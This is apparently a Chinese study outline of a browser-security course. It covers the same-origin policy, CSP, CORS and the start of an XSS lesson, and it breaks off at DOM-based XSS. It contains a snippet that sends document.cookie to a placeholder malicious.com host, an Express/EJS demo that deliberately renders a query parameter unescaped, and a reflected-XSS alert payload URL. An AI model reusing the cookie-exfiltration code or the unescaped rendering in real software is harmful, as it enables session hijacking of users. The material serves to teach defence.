## 浏览器安全
1. 同源策略：为什么XMLHttpRequest不能跨域请求资源？
   1. 序言
      1. 通过前面 6 个模块的介绍，我们已经大致知道浏览器是怎么工作的了，也了解这种工作方式对前端产生了什么样的影响
         1. 在这个过程中，我们还穿插介绍了一些浏览器安全相关的内容，不过都比较散，所以最后的 5 篇文章，我们就来系统地介绍下浏览器安全相关的内容。
      2. 浏览器安全可以分为三大块——Web 页面安全、浏览器网络安全和浏览器系统安全
         1. 鉴于页面安全的重要性，我们会用三篇文章来介绍该部分的知识；网络安全和系统安全则分别用一篇来介绍
      3. 今天我们就先来分析页面中的安全策略，不过在开始之前，我们先来做个假设，如果页面中没有安全策略的话，Web 世界会是什么样子的呢？
         1. Web 世界会是开放的，任何资源都可以接入其中，我们的网站可以加载并执行别人网站的脚本文件、图片、音频 / 视频等资源，甚至可以下载其他站点的可执行文件
         2. Web 世界是开放的，这很符合 Web 理念。但如果 Web 世界是绝对自由的，那么页面行为将没有任何限制，这会造成无序或者混沌的局面，出现很多不可控的问题
         3. 比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：
            1. 修改银行站点的 DOM、CSSOM 等信息；
            2. 在银行站点内部插入 JavaScript 脚本；
            3. 劫持用户登录的用户名和密码；
            4. 读取银行站点的 Cookie、IndexDB 等数据；
            5. 甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。
      4. 所以说，在没有安全保障的 Web 世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全。
         1. 这就引出了页面中最基础、最核心的安全策略：同源策略（Same-origin policy）。
   2. 什么是同源策略
      1. 如果两个 URL 的协议、域名和端口都相同，我们就称这两个 URL 同源
         1. 比如下面这两个 URL，它们具有相同的协议 HTTPS、相同的域名 time.geekbang.org，以及相同的端口 443，所以我们就说这两个 URL 是同源的。
            1. https://time.geekbang.org/?category=0
            2. https://time.geekbang.org/?category=1
         2. 浏览器默认两个相同的源之间是可以相互访问资源和操作 DOM 的
            1. 两个不同的源之间若想要相互访问资源或者操作 DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。
         3. 具体来讲，同源策略主要表现在 DOM、Web 数据和网络这三个层面
      2. 第一个，DOM 层面
         1. 同源策略限制了来自不同源的 JavaScript 脚本对当前 DOM 对象读和写的操作。
         2. 这里我们还是拿极客时间的官网做例子，打开极客时间的官网，然后再从官网中打开另外一个专栏页面，如下图所示：
            1. 
         3. 由于第一个页面和第二个页面是同源关系，所以我们可以在第二个页面中操作第一个页面的 DOM，比如将第一个页面全部隐藏掉，代码如下所示：
            ```
            {
            let pdom = opener.document
            pdom.body.style.display = "none"
            }
            ```
            1. 该代码中，对象 opener 就是指向第一个页面的 window 对象，我们可以通过操作 opener 来控制第一个页面中的 DOM
            2. 我们在第二个页面的控制台中执行上面那段代码，就成功地操作了第一个页面中的 DOM，将页面隐藏了，如下图：
            3. 
         4. 不过如果打开的第二个页面和第一个页面不是同源的，那么它们就无法相互操作 DOM 了
            1. 比如从极客时间官网打开 InfoQ 的页面（由于它们的域名不同，所以不是同源的），然后我们还按照前面同样的步骤来操作
               1. 最终操作结果如下图所示：
            2. 从图中可以看出，当我们在 InfoQ 的页面中访问极客时间页面中的 DOM 时，页面抛出了如下的异常信息，这就是同源策略所发挥的作用。
               1. Blocked a frame with origin "https://www.infoq.cn" from accessing a cross-origin frame.
      3. 第二个，数据层面
         1. 同源策略限制了不同源的站点读取当前站点的 Cookie、IndexDB、LocalStorage 等数据
         2. 由于同源策略，我们依然无法通过第二个页面的 opener 来访问第一个页面中的 Cookie、IndexDB 或者 LocalStorage 等内容
      4. 第三个，网络层面
         1. 同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点
         2. 你还记得在《17 | WebAPI：XMLHttpRequest 是怎么实现的？这篇文章的末尾分析的 XMLHttpRequest 在使用过程中所遇到的坑吗？
            1. 其中第一个坑就是在默认情况下不能访问跨域的资源。
   3. 安全和便利性的权衡
      1. 我们了解了同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。
         1. 不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 Web 项目难以开发和使用
         2. 因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性
         3. 而出让安全性又带来了很多安全问题，最典型的是 XSS 攻击和 CSRF 攻击，这两种攻击我们会在后续两篇文章中再做介绍
      2. 页面中可以嵌入第三方资源
         1. 我们在文章开头提到过，Web 世界是开放的，可以接入任何资源
            1. 而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JavaScript 文件、CSS 文件、图片等资源都部署在同一台服务器上
            2. 这无疑违背了 Web 的初衷，也带来了诸多限制
            3. 比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。
         2. 所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题
            1. 之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持
               1. 劫持的途径很多，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。
               2. 比如，恶意程序在 HTML 文件内容中插入如下一段 JavaScript 代码：
               3. 
               4. 当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中
               5. 当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。
            2. 除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器
               1. 具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器
               2. 如下面这段伪代码：
                  ```
                  function onClick(){
                    let url = `http://malicious.com?cookie = ${document.cookie}`
                    open(url)
                  }
                  onClick()
                  ```
                  1. 在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。
            3. 以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP
               1. CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码
               2. 通过这些手段就可以大大减少 XSS 攻击。
      3. 跨域资源共享和跨文档消息机制
         1. 默认情况下，如果打开极客邦的官网页面，在官网页面中通过 XMLHttpRequest 或者 Fetch 来请求 InfoQ 中的资源，这时同源策略会阻止其向 InfoQ 发出请求，这样会大大制约我们的生产力。
            1. 为了解决这个问题，我们引入了跨域资源共享（CORS），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。
         2. 在介绍同源策略时，我们说明了如果两个页面不是同源的，则无法相互操纵 DOM
            1. 不过在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是浏览器中又引入了跨文档消息机制
            2. 可以通过 window.postMessage 的 JavaScript 接口来和不同源的 DOM 进行通信
2. 跨站脚本攻击（XSS）：为什么Cookie中有HttpOnly属性？
   1. 序言
      1. 通过上篇文章的介绍，我们知道了同源策略可以隔离各个站点之间的 DOM 交互、页面数据和网络通信，虽然严格的同源策略会带来更多的安全，但是也束缚了 Web
      2. 这就需要在安全和自由之间找到一个平衡点，所以我们默认页面中可以引用任意第三方资源，然后又引入 CSP 策略来加以限制
      3. 默认 XMLHttpRequest 和 Fetch 不能跨站请求资源，然后又通过 CORS 策略来支持其跨域。
      4. 不过支持页面中的第三方资源引用和 CORS 也带来了很多安全问题，其中最典型的就是 XSS 攻击。
   2. 什么是 XSS 攻击
      1. XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本
         1. XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。
         2. 最开始的时候，这种攻击是通过跨域来实现的，所以叫“跨域脚本”
            1. 但是发展到现在，往 HTML 文件中注入恶意代码的方式越来越多了，所以是否跨域注入脚本已经不是唯一的注入手段了，但是 XSS 这个名字却一直保留至今
      2. 当页面被注入了恶意 JavaScript 脚本时，浏览器无法区分这些脚本是被恶意注入的还是正常的页面内容，所以恶意注入 JavaScript 脚本也拥有所有的脚本权限
      3. 如果页面被注入了恶意 JavaScript 脚本，恶意脚本都能做哪些事情。
         1. 可以窃取 Cookie 信息
            1. 恶意 JavaScript 可以通过“document.cookie”获取 Cookie 信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器
            2. 恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
         2. 可以监听用户行为
            1. 恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器
         3. 可以通过修改 DOM 伪造假的登录窗口，用来欺骗用户输入用户名和密码等信息
         4. 还可以在页面内生成浮窗广告，这些广告会严重地影响用户体验
      4. 除了以上几种情况外，恶意脚本还能做很多其他的事情，这里就不一一介绍了。总之，如果让页面插入了恶意脚本，那么就相当于把我们页面的隐私数据和行为完全暴露给黑客了
   3. 恶意脚本是怎么注入的
      1. 现在我们知道了页面中被注入恶意的 JavaScript 脚本是一件非常危险的事情，所以网站开发者会尽可能地避免页面中被注入恶意脚本
         1. 要想避免站点被注入恶意脚本，就要知道有哪些常见的注入方式
         2. 通常情况下，主要有存储型 XSS 攻击、反射型 XSS 攻击和基于 DOM 的 XSS 攻击三种方式来注入恶意脚本。
      2. 存储型 XSS 攻击
         1. 我们先来看看存储型 XSS 攻击是怎么向 HTML 文件中注入恶意脚本的，你可以参考下图：
            1. 
         2. 通过上图，我们可以看出存储型 XSS 攻击大致需要经过如下步骤：
            1. 首先黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中
            2. 然后用户向网站请求包含了恶意 JavaScript 脚本的页面
            3. 当用户浏览该页面的时候，恶意脚本就会将用户的 Cookie 信息等数据上传到服务器
         3. 下面我们来看个例子，2015 年喜马拉雅就被曝出了存储型 XSS 漏洞
            1. 起因是在用户设置专辑名称时，服务器对关键字过滤不严格，比如可以将专辑名称设置为一段 JavaScript，如下图所示：
               1. 
            2. 当黑客将专辑名称设置为一段 JavaScript 代码并提交时，喜马拉雅的服务器会保存该段 JavaScript 代码到数据库中
            3. 然后当用户打开黑客设置的专辑时，这段代码就会在用户的页面里执行（如下图），这样就可以获取用户的 Cookie 等数据信息
               1. 
            4. 当用户打开黑客设置的专辑页面时，服务器也会将这段恶意 JavaScript 代码返回给用户，因此这段恶意脚本就在用户的页面中执行了
            5. 恶意脚本可以通过 XMLHttpRequest 或者 Fetch 将用户的 Cookie 数据上传到黑客的服务器，如下图所示：
               1. 
            6. 黑客拿到了用户 Cookie 信息之后，就可以利用 Cookie 信息在其他机器上登录该用户的账号（如下图），并利用用户账号进行一些恶意操作。
               1. 
      3. 反射型 XSS 攻击
         1. 在一个反射型 XSS 攻击过程中，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又把恶意 JavaScript 脚本返回给用户
            1. 当恶意 JavaScript 脚本在用户页面中被执行时，黑客就可以利用该脚本做一些恶意操作。
         2. 这样讲有点抽象，下面我们结合一个简单的 Node 服务程序来看看什么是反射型 XSS
            1. 首先我们使用 Node 来搭建一个简单的页面环境，搭建好的服务代码如下所示：
               ```
               var express = require('express');
               var router = express.Router();
               /* GET home page. */
               router.get('/', function(req, res, next) {
                 res.render('index', { title: 'Express',xss:req.query.xss });
               });
               module.exports = router;

               <!DOCTYPE html>
               <html>
               <head>
                 <title><%= title %></title>
                 <link rel='stylesheet' href='/stylesheets/style.css' />
               </head>
               <body>
                 <h1><%= title %></h1>
                 <p>Welcome to <%= title %></p>
                 <div>
                     <%- xss %>
                 </div>
               </body>
               </html>
               ```
            2. 上面这两段代码，第一段是路由，第二段是视图，作用是将 URL 中 xss 参数的内容显示在页面
            3. 我们可以在本地演示下，比如打开```http://localhost:3000/?xss=123```这个链接，这样在页面中展示就是“123”了（如下图），是正常的，没有问题的
               1. 
            4. 但当打开```http://localhost:3000/?xss=<script>alert('你被xss攻击了')</script>``` URL 时，其结果如下图所示：
               1. 
            5. 通过这个操作，我们会发现用户将一段含有恶意代码的请求提交给 Web 服务器，Web 服务器接收到请求时，又将恶意代码反射给了浏览器端，这就是反射型 XSS 攻击
         3. 在现实生活中，黑客经常会通过 QQ 群或者邮件等渠道诱导用户去点击这些恶意链接，所以对于一些链接我们一定要慎之又慎。
      4. 基于 DOM 的 XSS 攻击
         1. 基于 DOM 的 XSS 攻击是不牵涉到页面 Web 服务器的
